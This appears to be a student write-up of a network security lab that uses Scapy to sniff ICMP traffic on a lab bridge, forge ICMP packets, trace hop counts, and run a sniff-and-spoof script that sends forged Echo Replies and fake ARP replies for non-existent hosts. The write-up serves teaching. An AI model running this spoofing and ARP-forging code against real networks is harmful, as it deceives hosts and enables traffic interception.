# Sniffing and Spoofing
## Task 1.1

The objective of this task is to learn how to use Scapy to do packet sniffing in Python programs. We were given this sample code:

```python
#!/usr/bin/env python3
from scapy.all import *
def print_pkt(pkt):
    pkt.show()
pkt = sniff(iface=’br-c93733e9f913’, filter=’icmp’, prn=print_pkt)
```

To get the name of the network interface in the VM we did the following:
<br>  <br>
Here is the interface name: br-83f28a549e42, where 83f28a549e42 is the id of the network created with the ip 10.9.0.1. We changed the sample code to the correct interface name.

### Task 1.1 A

We ran the script on the attacker with root previleges.
```
$ sudo python3 sniffer.py
```
```python
#!/usr/bin/env python3
from scapy.all import *
def print_pkt(pkt):
    pkt.show()
pkt = sniff(iface='br-83f28a549e42', filter='icmp', prn=print_pkt)
```

We then started pinging host B from host A:
<br>  <br>
As we can see, the sniffing program was able to capture the packets:
<br>  <br>
Here we can see the different layers: The Ethernet layer showed the source and destination MAC addresses and the packet type as IPv4. The IP layer included the source IP 10.9.0.6 and destination IP 10.9.0.5, along with TTL and the ICMP protocol. The ICMP layer showed an Echo Request (ping) with code 0. The raw data displayed the payload in hexadecimal format.

If we ran the program without root previleges, we would get an error:
<br>  <br>
This happens because only root can access raw sockets, which are necessary for packet sniffing.

### Task 1.1 B

In this task we will be using filters in sniffing.
To capture only ICMP packets, we can use the code we were using in the previous task:
```python
#!/usr/bin/env python3
from scapy.all import *
def print_pkt(pkt):
    pkt.show()
pkt = sniff(iface='br-83f28a549e42', filter='icmp', prn=print_pkt)
```
To capture any TCP packet that comes from a particular IP and with a destination port number 23, we use this code:
```python
#!/usr/bin/env python3
from scapy.all import *
def print_pkt(pkt):
    pkt.show()
pkt = sniff(iface='br-83f28a549e42', filter='tcp and src host <SOURCE_IP> and dst port 23', prn=print_pkt)
```
To capture packets comes from or to go to a particular subnet. You can pick any subnet, such as 128.230.0.0/16; you should not pick the subnet that your VM is attached to:
```python
#!/usr/bin/env python3
from scapy.all import *
def print_pkt(pkt):
    pkt.show()
pkt = sniff(iface='br-83f28a549e42', filter='net 128.230.0.0/16', prn=print_pkt)
```

### Task 1.2

For this task we used the following python code, that was explained in the lab:

```python 
#!/usr/bin/env python3
from scapy.all import *
a = IP()
a.dst = '10.9.0.6'
b = ICMP()
p = a/b
send(p)
```
We changed the destination ip to the host B ('10.9.0.6').
We then opened wireshark and ran the program, both with root previleges:
<br>  <br>
<br>  <br>
As we can see, the ICMP Echo Request packet was captured in Wireshark, confirming that the script successfully sent it. This demonstrates how we can send packets dynamically and verify them using Wireshark.

### Task 1.3

The goal of this task is to create a simple traceroute-like tool using Scapy to estimate the number of routers between the VM and a destination by sending packets with incrementally increasing TTL values and capturing the resulting ICMP responses.

In this code, we want to find the distance between the VM and the Google DNS ('8.8.8.8') <br>
For that we changed the previous 'spoofer.py' code a bit:
```python
#!/usr/bin/env python3
from scapy.all import *

for i in range(1,40):
    a = IP()
    a.dst = '8.8.8.8'
    a.ttl = i
    b = ICMP()
    p = a/b
    send(p)

```
<br>  <br>
As we can see, we are at the distance of 12 routers to 8.8.8.8, as indicated in the TTL value of 12 after the last ICMP "Time-to-live exceeded" message.

### Task 1.4

This task involves creating a sniff-and-then-spoof program using Scapy to intercept ICMP Echo Requests on a LAN and immediately send spoofed Echo Replies, making any target IP appear alive regardless of its actual status.

For the first IP '1.2.3.4', a non-existing host on the Internet we ran the following code on one machine:

```python
#!/usr/bin/env python3
from scapy.all import *


def spoof(packet):
    if ICMP in packet and packet[ICMP].type == 8:
        print("Original packet")
        print("source: ", packet[IP].src)
        print("destination: ", packet[IP].dst)
        
        ip = IP()
        ip.src = packet[IP].dst
        ip.dst = packet[IP].src
        ip.ihl = packet[IP].ihl
        
        icmp = ICMP()
        icmp.type = 0
        icmp.id = packet[ICMP].id
        icmp.seq = packet[ICMP].seq
        
        data = packet[Raw].load     
        new = ip/icmp/data

        print("Spoofed packet")
        print("source: ", new[IP].src)
        print("destination: ", new[IP].dst)
        print('\n')
        send(new, verbose=0)


packet = sniff(iface='br-83f28a549e42', filter='icmp and host 1.2.3.4', prn=spoof)
```

Then on another:
<br>  <br>

We could see that the code produced the following:
<br>  <br>
This means that the attack was successful. The spoofed Echo Reply was sent, even though the target host '1.2.3.4' does not exist. The target machine believes it received a reply, showing that the IP is "alive", despite it being unreachable.
ARP handling is not required because the spoofing occurs at the IP/ICMP layer. The attacker sends an ICMP reply without participating in ARP resolution.

For the second IP '10.9.0.99', a non-existing host on the LAN we ran the following code on one machine:
```python
#!/usr/bin/env python3
from scapy.all import *

def spoof(packet):
    if ICMP in packet and packet[ICMP].type == 8:
        print("Original packet")
        print("source: ", packet[IP].src)
        print("destination: ", packet[IP].dst)
        
        ip = IP()
        ip.src = packet[IP].dst
        ip.dst = packet[IP].src
        ip.ihl = packet[IP].ihl
        
        icmp = ICMP()
        icmp.type = 0
        icmp.id = packet[ICMP].id
        icmp.seq = packet[ICMP].seq
        
        data = packet[Raw].load     
        new = ip/icmp/data

        print("Spoofed packet")
        print("source: ", new[IP].src)
        print("destination: ", new[IP].dst)
        print('\n')
        send(new, verbose=0)
    
    elif ARP in packet and packet[ARP].op == 1:
        print("ARP request")

        arp = ARP()
        arp.hwlen = 6
        arp.plen = 4
        arp.op = 2
        arp.hwdst = packet[ARP].hwsrc
        arp.psrc = packet[ARP].pdst
        arp.pdst = packet[ARP].psrc
        
        send(arp, verbose=0)

packet = sniff(iface='br-83f28a549e42', filter='icmp and host 10.9.0.99 or arp', prn=spoof)
```
Then on another:
<br>  <br>
We could see that the code produced the following:
<br>  <br>
This means that the attack was successful. The spoofed Echo Reply was sent, even though the target host '10.9.0.99' does not exist. The target machine believes it received a reply, showing that the IP is "alive", despite it being unreachable.
In this case, ARP handling is necessary, as the attacker needs to intercept the ARP request and send a fake ARP reply to make the spoofed host appear reachable.


For the third IP '8.8.8.8', an existing host on the Internet we ran the following code on one machine:
```python
#!/usr/bin/env python3
from scapy.all import *

def spoof(packet):
    if ICMP in packet and packet[ICMP].type == 8:
        print("Original packet")
        print("source: ", packet[IP].src)
        print("destination: ", packet[IP].dst)
        
        ip = IP()
        ip.src = packet[IP].dst
        ip.dst = packet[IP].src
        ip.ihl = packet[IP].ihl
        
        icmp = ICMP()
        icmp.type = 0
        icmp.id = packet[ICMP].id
        icmp.seq = packet[ICMP].seq
        
        data = packet[Raw].load     
        new = ip/icmp/data

        print("Spoofed packet")
        print("source: ", new[IP].src)
        print("destination: ", new[IP].dst)
        print('\n')
        send(new, verbose=0)

packet = sniff(iface='br-83f28a549e42', filter='icmp and host 8.8.8.8', prn=spoof)
```
Then on another:
<br>  <br>
We could see that the code produced the following:
<br>  <br>
This means that the attack was successful. We got duplicate replies (DUP!), as the packets were being sent both by the program and the Google server. ARP handling is not needed in the context of the attack. The attacker only spoofs the ICMP reply and the normal ARP process still happens for actual communication.

## Conclusion

In this lab, we used Scapy to sniff and spoof network packets. We learned how to intercept ICMP Echo Requests, send spoofed replies, and manipulate ARP requests to make unreachable hosts appear alive, highlighting key network vulnerabilities and the power of packet manipulation.